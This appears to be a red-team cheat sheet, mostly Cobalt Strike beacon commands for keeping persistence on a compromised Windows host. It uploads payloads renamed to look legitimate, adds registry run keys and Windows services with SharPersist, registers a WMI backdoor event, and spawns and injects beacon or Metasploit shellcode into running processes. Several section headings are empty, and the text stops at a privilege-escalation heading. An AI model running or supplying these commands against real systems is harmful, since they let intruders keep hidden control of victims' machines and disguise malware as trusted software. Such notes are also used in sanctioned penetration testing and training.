 # Persistance - Registry Autorun
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe Updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

# Persistance COM Hijacks

# Persistance - Privilleged System User

# Windows Service
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe legit-svc.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add

# Register WMI event to trigger our payload
beacon> cd C:\Windows
beacon> upload C:\Payloads\dns_x64.exe
beacon> powershell-import C:\Tools\PowerLurk.ps1
beacon> powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe

# TIP : Use a beacon with slow check-in and spawn a new Session from it , So that it can be later used as lifeline.
beacon> spawn x64 http
beacon> inject 4464 x64 http
# Create a new Session (child of current process) using spawn or shspawn.
beacon> spawn x64 http
beacon> shspawn x64 C:\Payloads\msf_http_x64.bin
# Inject a full Beacon payload for the specified listener using inject or shinject.
beacon> inject 4464 x64 tcp-local
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps
beacon> shinject <PID> x64 msf.bin

Host Privilege Escalation
